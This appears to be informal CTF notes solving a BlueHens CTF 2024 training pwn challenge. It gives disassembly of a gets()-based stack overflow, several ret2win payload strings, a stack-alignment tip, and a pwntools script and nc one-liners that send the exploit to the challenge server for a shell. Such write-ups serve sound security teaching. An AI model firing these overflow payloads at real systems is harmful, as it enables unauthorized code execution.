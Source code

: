 = 2024年11月10日

== BlueHens CTF 2024

=== Training Problem: Intro to PWN 

``nc 0.cloud.chals.io 13545``

----
0000000000401196 <win>:
  401196:	f3 0f 1e fa          	endbr64
  40119a:	55                   	push   %rbp
  40119b:	48 89 e5             	mov    %rsp,%rbp
  40119e:	48 8d 05 5f 0e 00 00 	lea    0xe5f(%rip),%rax        # 402004 <_IO_stdin_used+0x4>
  4011a5:	48 89 c7             	mov    %rax,%rdi
  4011a8:	e8 d3 fe ff ff       	call   401080 <system@plt>
  4011ad:	90                   	nop
  4011ae:	5d                   	pop    %rbp
  4011af:	c3                   	ret

00000000004011b0 <vuln>:
  4011b0:	f3 0f 1e fa          	endbr64
  4011b4:	55                   	push   %rbp
  4011b5:	48 89 e5             	mov    %rsp,%rbp
  4011b8:	48 83 ec 30          	sub    $0x30,%rsp
  4011bc:	48 8d 05 49 0e 00 00 	lea    0xe49(%rip),%rax        # 40200c <_IO_stdin_used+0xc>
  4011c3:	48 89 c7             	mov    %rax,%rdi
  4011c6:	e8 a5 fe ff ff       	call   401070 <puts@plt>
  4011cb:	48 8d 45 d0          	lea    -0x30(%rbp),%rax
  4011cf:	48 89 c7             	mov    %rax,%rdi
  4011d2:	b8 00 00 00 00       	mov    $0x0,%eax
  4011d7:	e8 b4 fe ff ff       	call   401090 <gets@plt>
  4011dc:	90                   	nop
  4011dd:	c9                   	leave
  4011de:	c3                   	ret

00000000004011df <main>:
  4011df:	f3 0f 1e fa          	endbr64
  4011e3:	55                   	push   %rbp
  4011e4:	48 89 e5             	mov    %rsp,%rbp
  4011e7:	48 8b 05 82 2e 00 00 	mov    0x2e82(%rip),%rax        # 404070 <stdin@GLIBC_2.2.5>
  4011ee:	b9 01 00 00 00       	mov    $0x1,%ecx
  4011f3:	ba 02 00 00 00       	mov    $0x2,%edx
  4011f8:	be 00 00 00 00       	mov    $0x0,%esi
  4011fd:	48 89 c7             	mov    %rax,%rdi
  401200:	e8 9b fe ff ff       	call   4010a0 <setvbuf@plt>
  401205:	48 8b 05 54 2e 00 00 	mov    0x2e54(%rip),%rax        # 404060 <stdout@GLIBC_2.2.5>
  40120c:	b9 01 00 00 00       	mov    $0x1,%ecx
  401211:	ba 02 00 00 00       	mov    $0x2,%edx
  401216:	be 00 00 00 00       	mov    $0x0,%esi
  40121b:	48 89 c7             	mov    %rax,%rdi
  40121e:	e8 7d fe ff ff       	call   4010a0 <setvbuf@plt>
  401223:	48 8b 05 56 2e 00 00 	mov    0x2e56(%rip),%rax        # 404080 <stderr@GLIBC_2.2.5>
  40122a:	b9 01 00 00 00       	mov    $0x1,%ecx
  40122f:	ba 02 00 00 00       	mov    $0x2,%edx
  401234:	be 00 00 00 00       	mov    $0x0,%esi
  401239:	48 89 c7             	mov    %rax,%rdi
  40123c:	e8 5f fe ff ff       	call   4010a0 <setvbuf@plt>
  401241:	b8 00 00 00 00       	mov    $0x0,%eax
  401246:	e8 65 ff ff ff       	call   4011b0 <vuln>
  40124b:	b8 00 00 00 00       	mov    $0x0,%eax
  401250:	5d                   	pop    %rbp
  401251:	c3                   	ret
----


AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x90\x90\x90\x90\x90\x90\x90\x90\x9e\x11\x40

401196


\x96\x11\x40\x00

\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x90\x90\x90\x90\xc0\x11\x40\x00
\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x90\x90\x90\x90\xc0\x11\x40\x00
\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x90\x90\x90\x90\xc0\x11\x40\x00

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xc0\x11\x40\x00


take note of: ``0x7ffff7e16f5b <do_system+016b> movaps XMMWORD PTR [rsp+0x50], xmm0``

you need to add another 4 bytes to the address because of **movaps**.

[, python]
----
from pwn import *

context.log_level = 'debug'

binary_path = "./pwnme"

elf = ELF(binary_path)

web = remote("0.cloud.chals.io", 13545)
print(web.recv())
web.sendline(b"A"*48 + b"\x90"*8 + b"\x9e\x11\x40")
web.interactive()
----

i dont get why this works but not using ``echo -ne "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x90\x90\x90\x90\x90\x90\x90\x90\x9e\x11\x40" | nc 0.cloud.chals.io 13545``


(echo -ne "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x90\x90\x90\x90\x90\x90\x90\x90\x9e\x11\x40" && cat) | nc 0.cloud.chals.io 13545

don't use `-n` flag, removes `\x0a` byte at the end
